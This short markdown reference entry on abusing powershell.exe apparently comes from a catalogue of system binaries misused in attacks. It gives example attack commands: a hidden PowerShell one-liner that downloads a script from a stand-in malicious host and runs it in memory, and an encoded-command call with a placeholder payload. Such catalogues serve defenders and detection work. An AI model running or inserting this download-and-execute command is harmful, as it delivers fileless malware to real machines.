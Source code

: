 # powershell.exe
## What is it?
*PowerShell is a scripting language used for system administration.*

## How to abuse it
- *Executes fileless malware.*

## Example Attacks
```
powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious[.]site/script.ps1')"

powershell -EncodedCommand "<base64_payload>"
```
